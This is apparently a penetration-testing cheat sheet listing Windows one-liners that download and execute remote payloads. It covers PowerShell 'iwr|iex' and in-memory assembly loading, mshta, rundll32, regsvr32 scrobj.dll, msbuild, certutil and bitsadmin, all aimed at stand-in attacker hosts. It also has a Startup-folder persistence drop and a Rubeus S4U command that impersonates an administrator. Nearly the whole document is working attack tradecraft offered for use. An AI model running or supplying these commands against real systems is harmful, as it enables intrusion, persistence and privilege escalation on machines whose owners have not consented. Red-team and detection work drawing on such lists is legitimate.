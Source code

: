 # Windows - Download and execute methods

## Downloaded files location

- C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## Powershell

From an HTTP server

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

# Download only
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"

# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly 
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

From a Webdav server

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

## Cmd

```powershell
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

## Cscript / Wscript

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

## Mshta

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```powershell
mshta http://webserver/payload.hta
```

```powershell
mshta \\webdavserver\folder\payload.hta
```

## Rundll32

```powershell
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

## Regasm / Regsvc @subTee

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

## Regsvr32 @subTee

```powershell
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```powershell
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Odbcconf

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

## Msbuild

```powershell
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

## Bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```


## References

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)